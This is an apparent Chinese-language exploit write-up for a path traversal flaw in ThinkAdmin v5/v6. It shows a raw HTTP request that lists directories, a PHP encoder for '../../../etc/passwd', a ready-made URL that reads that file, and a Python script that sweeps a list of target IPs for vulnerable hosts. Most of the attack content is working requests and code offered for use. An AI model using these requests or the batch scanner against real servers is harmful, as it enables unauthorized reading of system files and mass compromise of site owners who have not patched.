




# ThinkAdmin -- 任意文件读取

## 简介

ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统,ThinkAdmin v6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

## 影响范围

Thinkadmin ≤ 2020.08.03.01  

 v5（任意文件读取）   

v6（列目录,任意文件读取）


## 漏洞复现

### 列目录

``` 
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```


### 任意文件读取

1、利用脚本编码需要读取的文件名

```
<?php
$name="../../../etc/passwd";
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```



2、读取/etc/passwd文件

```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```



3、将获取到的base64编码内容进行解码



## 脚本使用方法

```
# by : YaunSky
# 时间 : 2020-12-06
# 内容 : ThinkAdmin 任意文件读取 (脚本读取/etc/passwd)


import requests
import json
import base64

requests.packages.urllib3.disable_warnings()

heard = {
    "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/18.17763",
    "Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Language" : "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding" : "gzip, deflate",
    "Connection" : "close",
    "Upgrade-Insecure-Requests" : "1" 
}
res = open("ip2.txt","r")  #ip2.txt 存放探目标的文件
for ip in res.readlines():
    #print(ip.strip())
    url = ip.strip()+"/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s"
    try:
        request = requests.get(url=url, headers=heard, verify=False, timeout=3)
        try:
            rep = base64.b64decode(json.loads(request.text)['data']['content'])
            if "root" in str(rep):
                print("[+]"+ip.strip()+"存在任意文件读取漏洞")
            else:
                pass
        except:
            pass
    except:
        pass
```

python ThinkAdminScan.py



